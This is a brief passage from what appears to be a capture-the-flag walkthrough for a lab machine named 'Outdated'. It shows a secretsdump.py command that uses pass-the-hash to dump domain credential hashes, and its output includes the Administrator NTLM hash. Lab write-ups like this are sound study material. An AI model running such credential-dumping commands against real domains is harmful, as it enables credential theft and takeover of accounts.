 Alternatively, we can dump the hashes from the entire domain:

{% code overflow="wrap" %}
```
$ secretsdump.py outdated.htb/sflowers@10.129.193.194 -hashes ':1FCDB1F6015DCB318CC77BB2BDA14DB5'
<TRUNACTED>
Administrator:500:aad3b435b51404eeaad3b435b51404ee:716f1ce2e2cf38ee1210cce35eb78cb6
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4) (3) (5).png" alt=""><figcaption></figcaption></figure>
